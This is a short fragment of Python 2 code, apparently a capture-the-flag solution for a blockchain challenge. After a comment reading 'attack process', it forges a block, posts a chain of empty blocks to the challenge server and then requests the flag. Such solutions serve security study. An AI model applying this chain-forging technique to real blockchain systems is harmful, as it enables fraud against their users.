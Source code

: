 ```python
def create_empty_block(prev):
    return check_hash(prev,[])


# 攻击过程

a=create_feak_one()
print s.post(url=url_create,data=str(json.dumps(a))).content
b=create_empty_block(a['hash'])
print s.post(url=url_create,data=str(json.dumps(b))).content
c=create_empty_block(b['hash'])
print s.post(url=url_create,data=str(json.dumps(c))).content
d=create_empty_block(c['hash'])
print s.post(url=url_create,data=str(json.dumps(d))).content
e=create_empty_block(d['hash'])
print s.post(url=url_create,data=str(json.dumps(e))).content
print s.get(url=url_flag).content

```





